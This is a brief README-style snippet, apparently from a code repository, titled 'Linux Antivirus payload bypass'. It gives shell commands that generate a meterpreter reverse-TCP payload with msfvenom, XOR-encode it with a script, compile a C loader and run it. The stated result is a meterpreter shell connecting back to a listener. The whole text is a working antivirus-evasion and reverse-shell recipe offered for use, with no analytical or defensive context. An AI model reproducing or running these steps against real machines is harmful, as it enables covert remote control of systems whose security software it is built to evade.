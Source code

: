 Linux Antivirus payload bypass
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.130.128 LPORT=4445 -f raw > linux.bin
python3 xorenc.py linux.bin
gcc -o lin.out lin.c
./lin.out
```
The payload will execute and we get a meterpreter shell
